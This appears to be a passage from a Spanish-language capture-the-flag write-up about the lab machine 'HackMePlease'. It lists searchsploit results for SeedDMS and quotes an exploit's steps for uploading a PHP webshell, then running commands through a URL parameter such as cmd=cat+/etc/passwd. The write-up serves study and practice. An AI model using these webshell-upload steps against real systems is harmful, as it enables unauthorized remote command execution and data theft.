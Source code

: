 Buscamos vulnerabilidades asociadas a `SeedDMS` con la herramienta `searchsploit`

```bash
❯ searchsploit seeddms
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Seeddms 5.1.10 - Remote Command Execution (RCE) (Authenticated)                                                                                            | php/webapps/50062.py
SeedDMS 5.1.18 - Persistent Cross-Site Scripting                                                                                                           | php/webapps/48324.txt
SeedDMS < 5.1.11 - 'out.GroupMgr.php' Cross-Site Scripting                                                                                                 | php/webapps/47024.txt
SeedDMS < 5.1.11 - 'out.UsrMgr.php' Cross-Site Scripting                                                                                                   | php/webapps/47023.txt
SeedDMS versions < 5.1.11 - Remote Command Execution                                                                                                       | php/webapps/47022.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Examinamos el contenido de `47022.txt`. Según instrucciones debemos loguearnos, crear un archivo php, subirlo a través de `Add document`, verificar la id asignada y visitamos la ruta en el paso 4 para poder ejecutar de forma remota comandos

```bash
Exploit Steps:

Step 1: Login to the application and under any folder add a document.
Step 2: Choose the document as a simple php backdoor file or any backdoor/webshell could be used.

PHP Backdoor Code:

Step 3: Now after uploading the file check the document id corresponding to the document.
Step 4: Now go to example.com/data/1048576/"document_id"/1.php?cmd=cat+/etc/passwd to get the command response in browser.
```

Tenemos RCE

<img src="/assets/VH/HackMePlease/rce.png">
